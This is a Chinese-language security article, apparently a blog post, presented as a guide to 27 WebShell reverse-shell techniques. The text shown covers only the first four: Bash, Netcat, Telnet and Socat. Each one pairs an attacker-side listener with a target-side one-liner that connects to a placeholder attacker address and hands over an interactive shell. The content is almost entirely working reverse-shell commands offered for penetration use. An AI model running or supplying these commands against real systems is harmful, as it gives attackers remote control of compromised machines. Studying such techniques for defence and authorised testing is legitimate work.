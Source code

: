 ```yaml
---
date: 2021-09-01
title: 全面解析 27 种 WebShell 反弹技术
authors: [SecAdmin]
description: >
  本文详细介绍了多达 27 种 WebShell 反弹技术，涵盖 Bash、Netcat、Python、Java 等多种编程语言实现的反弹方法，还包括利用系统工具、漏洞、计划任务等特殊途径进行反弹的操作。同时，为深入探索相关知识，提供了 aspx、ascx、ashx、asmx 等文件的技术研究链接。无论是网络安全从业者提升渗透测试技能，还是技术爱好者深入了解 WebShell 原理，本文都能提供丰富且实用的内容。
categories: 攻防兼备
tags:
  - 网络安全
  - WebShell
  - 系统安全
---
```


# 全面解析 27 种 WebShell 反弹技术

### 1. Bash反弹

```text
# 攻击者主机上执行监听
nc -lvvp port
# 目标主机上执行
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

### 2. Netcat反弹

```text
# 攻击者主机上执行监听
nc -lvvp port
# 目标主机上执行
nc -e /bin/bash x.x.x.x port
```

### 3. Telnet反弹

```text
# 攻击者主机上打开两个终端分别执行监听
nc -lvvp 4444
nc -lvvp 5555
# 目标主机中执行
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

### 4. Socat反弹

```text
# 攻击者主机上执行监听
socat TCP-LISTEN:port,fork -
# 目标主机上执行
socat tcp-connect:x.x.x.x:port exec:'bash -li',pty,stderr,setsid,sigint,sane
```
